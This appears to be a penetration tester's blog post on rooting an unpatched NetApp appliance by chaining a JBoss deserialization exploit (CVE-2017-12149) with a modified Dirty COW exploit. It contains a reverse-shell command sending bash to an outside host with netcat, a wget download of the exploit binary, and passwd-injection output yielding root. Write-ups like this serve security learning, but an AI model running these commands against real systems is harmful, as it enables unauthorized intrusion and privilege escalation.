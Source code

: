 ```yaml
---
layout: post
title: Deserialized Double Dirty
categories: [pentest, exploits]
tags: [java, deserialization, jboss, dirtycow, privilege escalation, CVE-2017-12149, netapp]
comments: true
---
```

Recently I was able to fully root a NetApp OnCommand Performance Manager appliance using a Java Deserialization vulnerability and Dirty Cow.  

**Disclaimer: NetApp has security patches for both of these issues. This appliance simply had not been updated.**

Late last year I ran into a device that was vulnerable to [CVE-2017-12149](https://nvd.nist.gov/vuln/detail/CVE-2017-12149) and was able to get a shell on that device. After using [Ysoserial](https://github.com/frohoff/ysoserial) and loading in the payloads in Burp Repeater (pro tip from [@hateshaped:](https://twitter.com/hateshaped) right click -> paste from file), I wanted to automate the building and delivery of the payload. I knew [@byt3bl33d3r](https://twitter.com/byt3bl33d3r) had a quite a few of these scripts on [Coalfire Lab's Github](https://github.com/Coalfire-Research/java-deserialization-exploits) so I modified a similar JBoss script for this specific vulnerability. The PoC can be found [here](https://github.com/jreppiks/CVE-2017-12149.git)

So when this popped up again, I was super excited. The system had a "modern" version of netcat, so ```nc -e``` worked just fine to grab a shell. 
```
python jdspoc.py --proto http --ysoserial-path ./ysoserial.jar 10.10.193.110:80 'nc -ne /bin/bash 192.168.3.230 8000'
```
This time, however, the admin (or perhaps NetApp) had done something right, the application was not running as root, but a low privilege user. 
```
 nc -lvp 8000
listening on [any] 8000 ...
10.10.193.110: inverse host lookup failed: Unknown host
connect to [192.168.3.230] from (UNKNOWN) [10.10.193.110] 34503
id
uid=998(jboss) gid=42(shadow) groups=1002(jboss),42(shadow)
```
While doing some enumeration, uname came back with the following:
```
Debian 3.2.68-1+deb7u1
```
Ripe for Dirty COW! The Dirty COW exploit I'm most familiar with is [Firefart's exploit](https://github.com/FireFart/dirtycow.git). It's stable and it works. I ran the exploit and it created the firefart user with no issues, but this is where it got interesting.

Typical "firefartage" one does ```su - firefart``` or ```ssh firefart@<ip>```. However, I could not upgrade my shell to a TTY shell (I'm sure I'm saying that wrong...). I could not ```su``` since I didn't have a "real" terminal. I tried all the usual tricks (e.g. [Pentest Monkey's awesomeness](http://pentestmonkey.net/blog/post-exploitation-without-a-tty) and [Ropnop's great blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)) but not even stackoverflow could help me out!

 
  
SSH was also a bust. The ssh server on the system was set up so only members of the maintenance group could log in and it could not be a root user. I decided to modify Firefart's code and make the firefart user a non-root user and add them to the maintenace group. I ran the exploit and it created the user! I was now able to ssh into the device. I was still not root, though. So, I ran the original exploit again thinking I could then just ```su - firefart```. When I tried that, it failed with an error: ```I have no name!``` 

Even running the script twice with two different usernames ended in the same error. I decided I needed to modify the exploit code again to add both users at the same time. You can grab the modified code I lovingly named doubledirty [here](https://github.com/jreppiks/doubledirty.git) Please be kind, I am not a developer, but it complied and ran on the very first time, that has to count for something, right?!

I grabbed the new exploit code and ran it on the system:
```
jboss@netapp:/tmp$ wget 192.168.3.230:8080/doubledirty
wget 192.168.3.230:8080/doubledirty
--2019-08-16 14:28:23--  http://192.168.3.230:8080/doubledirty
Connecting to 192.168.3.230:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18200 (18K) [application/octet-stream]
Saving to: `doubledirty'

     0K .......... .......                                    100% 30.4M=0.001s

2019-08-16 14:28:23 (30.4 MB/s) - `doubledirty' saved [18200/18200]

jboss@netapp:/tmp$ ls -ltr
ls -ltr
total 696
drwx------ 2 root  root          4096 Feb  8  2016 vmware-root
-rw-r--r-- 1 root  root           654 Feb  8  2016 netapp-opm-postinst.log
-rw-r--r-- 1 jboss shadow       18200 Aug 16 14:27 doubledirty
jboss@netapp:/tmp$ chmod +x doubledirty
chmod +x doubledirty
jboss@netapp:/tmp$ ./doubledirty
./doubledirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Complete line:

jreppiksroot:2fe7ebe7ff742bf25fd67824bfed403a:0:0:pwned:/root:/bin/bash
jreppiks:2fe7ebe7ff742bf25fd67824bfed403a:14:1000:pwned:/root:/bin/bash
```

I was able to ssh in as the non-priveledged user and then su - to the root user!
```
# ssh jreppiks@10.10.193.110
Password: 
Linux netapp 3.2.0-4-amd64 #1 SMP Debian 3.2.68-1+deb7u1 x86_64
Last login: Fri Aug 16 11:48:49 2019 from 192.168.3.230
Could not chdir to home directory /root: Permission denied
-bash: /root/.bash_profile: Permission denied
jreppiks@netapp:/$ id
uid=14(jreppiks) gid=1000(maintenance) groups=1000(maintenance)
jreppiks@netapp:/$ su - jreppiksroot
Password: 
jreppiksroot@netapp:~# id
uid=0(jreppiksroot) gid=0(root) groups=0(root)
jreppiksroot@netapp:~# 
```
